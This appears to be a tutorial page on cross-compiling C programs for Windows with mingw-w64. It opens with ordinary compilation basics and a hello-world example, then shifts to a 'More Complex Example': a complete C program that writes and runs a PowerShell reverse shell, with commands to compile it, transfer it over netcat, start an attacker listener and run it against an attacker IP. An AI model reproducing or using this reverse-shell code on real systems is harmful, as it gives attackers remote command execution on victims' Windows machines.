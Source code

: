 ## On Compilation

With `compilation` we refer to the act of `translating` a source code into a language that is then able to execute on a given CPU architecture.

Example:
> source code --> compilation --> binary

Compilation can be a complex process involving multiple stages.

The general idea however is binaries are compiled for specific environments. Here with `environment` we mean a combination of:
- Hardware Architecture (CPU type)
- Operating System
- Other user-space program and configurations

## On Cross Compilation

The term `cross compilation` is a technique that is used when we want to compile not for our `current environment` but for a `target environment`.

## Practical Example

Let's say for example we're running linux.

In linux the binary format used is the `ELF' format

Example:
> ELF --> Executable and Linkable Format

What if we want to compile a program that will run on a windows machine? Since windows uses a different format, namely the `PE` format, we need to perform `cross-compilation`

Example:
> PE --> Portable Executable

Consider the following example:
```c
#include <stdio.h>

int main(void) {
	printf("Hello World!\n");
	return 0;
}
```

If we simply compile it with `gcc' we obtain a `ELF' binary:
```sh
gcc hello.c -o hello
```

Get details on the file:
```sh
file hello
```

Output:
```sh
hello: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=bec12ca31f07ee4af0e8146ab7f339f816235130, for GNU/Linux 4.4.0, not stripped
```

Which cannot be executed on a windows machine.

If we want to execute it on a windows machine, we need to cross-compile it. To do this we need to install the `x86_64-w64-mingw32-gcc-win32`compiler.

Install using pacman:
```sh
sudo pacman -S mingw-w64-gcc
```

Install using apt:
```sh
sudo apt install g++-mingw-w64-x86-64 gcc-mingw-w64-x86-64
```

We can then use the following command:
```sh
x86_64-w64-mingw32-g++ hello.c -static -o hello
```
- Static library do not have any dependencies with the outside system.
- Dynamic library do have dependencies with the outside system.
- This means that in a compiled dynamic binary all of the code is not included, so the binary has references to other files in the system. You can see that in an above command we did with `file hello`.  

or with the apt example:
```sh
x86_64-w64-mingw32-gcc hello.c -o hello.exe
```

- x86_64-w64-mingw32-g++, for **64 bit** architectures
- i686-w64-mingw32-gcc, for **32 bit** architectures

Check architecture on target machine:
```cmd
systeminfo
```

With this we obtain a `PE32+` that runs on the windows operating system.

Check file details again:
```sh
file hello.exe
```

Output
```sh
hello.exe: PE32+ executable (console) x86-64, for MS Windows, 20 sections
```

Transfer file with `nc`:

Linux
```sh
nc -lvnp < hello .exe
```

Windows
```sh
.\nc64.exe 192.168.122.1 4321 > hello.exe
```

---

## More Complex Example

Shell.c - Spawns a custom reverse shell.
```c
// x86_64-w64-mingw32-g++ shell.c -static -lws2_32 -o shell 

#include <stdio.h>
#include <stdlib.h>
#include <winsock2.h>
#include <ws2tcpip.h>

#define SUCCESS 0
#define FAILURE 1

const char *PS_TEMPLATE = "$client = New-Object System.Net.Sockets.TCPClient(\"%s\", %s);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + \"PS \" + (pwd).Path + \"> \";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()";

int validate_ip(char *ip) {
  struct in_addr res;
  int result = inet_pton(AF_INET, ip, &res);
  return result == 1 ? SUCCESS : FAILURE;
}

int validate_port(char *port) {
  int p = atoi(port);
  return p > 0 && p < 65535 ? SUCCESS : FAILURE;
}

int main(int argc, char **argv) {

  if (argc < 3) {
    fprintf(stdout, "[INFO] - Usage: %s <IP> <port>", argv[0]);
    exit(0);
  }

  // read and validate input
  char *name = *argv++;
  char *ip = *argv++;
  char *port = *argv++;

  fprintf(stdout, "[INFO] - IP = %s, PORT = %s\n", ip, port);

  if (validate_ip(ip) == FAILURE) {
    fprintf(stderr, "[ERROR] - Invalid IP!\n");
    exit(0);    
  } else if (validate_port(port) == FAILURE) {
    fprintf(stderr, "[ERROR] - Invalid PORT!\n");
    exit(0);
  }

  // generate payload string
  int output_length = strlen(PS_TEMPLATE) - 4 + strlen(ip) + strlen(port) + 1;
  char output[output_length] = { 0 };
  snprintf(output, output_length, PS_TEMPLATE, ip, port);
  fprintf(stdout, "[INFO] - Payload generated:\n\n%s\n\n", output);

  // write payload to file
  FILE *fp;
  fp = fopen("test.ps1", "w");
  fprintf(fp, output);
  fclose(fp);

  // execute powershell
  system("powershell .\\test.ps1");

  // TODO: execute this shell after every 30 secs, and if we do not
  // get a connection back simply retry.

  return 0;
}
```

Usage:

Compile:
```sh
x86_64-w64-mingw32-g++ shell.c -static -lws2_32 -o shell 
```
- **l** - Link this library
- **ws** - Windows

Transfer:
```sh
nc -lvnp 4321 < shell.exe
```

```sh
.\nc64.exe 192.168.122.1 4321 > shell.exe
```

Start listener on attacker machine
```sh
nc -lvnp 7777
```

Run on Windows:
```cmd
.\shell <ATTACKER-IP> 7777
```